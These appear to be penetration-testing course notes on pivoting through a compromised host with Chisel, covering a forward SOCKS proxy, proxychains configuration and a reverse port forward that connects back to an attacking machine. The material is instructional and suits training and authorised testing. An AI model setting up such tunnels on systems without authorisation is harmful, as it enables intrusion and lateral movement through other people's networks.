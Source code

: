 ### Method Forward SOCKS Proxy:

- First, on the compromised host we would use:

```
$ ./chisel server -p LISTEN_PORT --socks5
```

- On our own attacking box we would then use:

```
$ ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

In this command, PROXY_PORT is the port that will be opened for the proxy.

Example:
```
$ ./chisel client 172.16.0.10:8080 1337:socks
```

would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.


### Proxychains Reminder:

When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from socks4 to socks5:

```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```


### Method Remote Port Forward

For a remote port forward, on our attacking machine we use the exact same command as before:

```
./chisel server -p LISTEN_PORT --reverse &
```

Once again this sets up a chisel listener for the compromised host to connect back to.
The command to connect back is slightly different this time, however:

```
$ ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons.

`Note the distinction between the LISTEN_PORT and the LOCAL_PORT`
